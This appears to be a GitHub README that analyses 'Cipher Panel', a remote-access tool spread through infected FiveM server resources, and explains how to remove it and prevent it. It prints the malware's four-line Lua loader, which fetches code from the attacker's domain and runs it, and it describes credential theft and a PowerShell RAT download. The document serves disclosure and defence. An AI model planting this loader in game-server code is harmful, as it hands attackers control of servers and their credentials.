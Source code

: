 # Cipher Panel
Cipher is a paid Remote Execution/Administration Tool (RAT). Cipher's customers generate 4 lines of Lua code to inject into resources (many of them obfuscate the code) which will download remote code from the Cipher servers. We've found many leaked resources are infected with Cipher-Panel. This repository will talk more about how Cipher works.



# How Cipher Works
Cipher works by releasing infected code/resources to the FiveM public. Server owners/developers take the code (that they don't know is infected) and install it on their servers. Once the resource is installed and ran it will inject its code into other previously clean resources.

The initial infected code boils down to the following:

```
PerformHttpRequest('https://cipher-panel.me/_i/i?to=UNIQUECODE', function (e, d)
	local s = assert(load(d))
	if (d == nil) then return end 
	s() 
end)
```

The Unique Code in the URL request is the Cipher user that now has control of your server. Once this code is run it downloads the remote code (from Cipher) and runs it on line 4 as a function.

This is the basis on how most of Cipher works. It proceeds to download several more requests (found in the code returned by Cipher) and will continue until it injects more pre-existing resources.

After the code is run, it will upload some javascript and override existing files within the system builders directory. 

`resources\[system]\[builders]` 

The code will start propagating itself within all of your resources and files within the fivem server installation to make it difficult to remove.

At this stage, its armageddon and all files within the server are compromised meaning files can be downloaded, uploaded, edited and viewed, including but not limited to just the server.cfg, sql credentials or even steal your cfx license keys. They’re also able to run remote code on the server which leads to the last step.

Cipher is a rat that has the capability of gaining full system administrator access to take over the host machine it's run on. It does this by using powershell to download a rat executable and also add / alter users to provide remote desktop access to your server. This back door approach also supports linux too. 

Cipher customers have been seen attempting to extort servers for money paid in crypto currency in exchange to deter the user of cipher from deleting the server entirely. 

Read Infection Documentation for more information on what it expands into.



# How to remove Cipher.

If you have been infected with Cipher, this is what you must do:

Disconnect from the internet your server and access it via KVM (if possible).

Blacklist their domains on your firewall. This will will slow them down however we’ve seen instances where they will use proxies to evade this but on most leaks this will help.

Edit the hosts file `C://windows/system32/drivers/etc/hosts.txt` and add.

`
0.0.0.0 cipher-panel.me 
0.0.0.0 ciphercheats.com
0.0.0.0 dark-utilities.xyz
`

Install an antivirus software on the host machine to scan for any backdoors / rats. 

Check the system admins on the machine to verify that no unauthorized accounts exist.

Change any passwords you have on the host machine to ensure that they don’t have access.

While your fivem server is turned off, use the provided python script to install a nullifier which will help prevent future infections of cipher and tell you what files are infected. 
 
You can also install this code manually however we expect cipher will attempt to patch this.

scheduler.lua


**Make sure you do not run your FiveM server as ROOT (Linux) or Administrator (Windows)**



# Other things you can do to prevent being attacked by cipher

Consider adding the [Warden](https://discord.com/invite/jeFeDRasfs) to your discord server. It's a great resource that can help remove cheaters and leakers (people who participate in sharing leaked paid resources) from your community or support hack products like cipher. 

Make sure to install the latest updates of whatever framework you are using for [ESX](https://github.com/esx-framework/esx-legacy) | [ESX Discord](https://discord.esx-framework.org) [QBCore](https://github.com/qbcore-framework/qb-core) | [QBCore Discord](https://discord.gg/qbcore) 

Consider investing into a good anticheat for your server like [Phoenix Anticheat](https://discord.com/invite/pac) or [FiveEye](https://dsc.gg/FiveEye) or any other anti-cheat that you feel comfortable using. 

Buy resources from only reputable places that you feel comfortable purchasing from either Tebex listed stores or from places like [Modit](https://modit.store/), if you're unsure about a store, perhaps ask for guidance on the warden discord. 

Be extremely sketchy on code you get that is encrypted or downloaded from shady sources.

Lastly, the most important thing… DON'T USE LEAKED RESOURCES!


## Cipher Customers

If you are a customer of cipher, we suggest canceling your subscriptions and getting a refund.
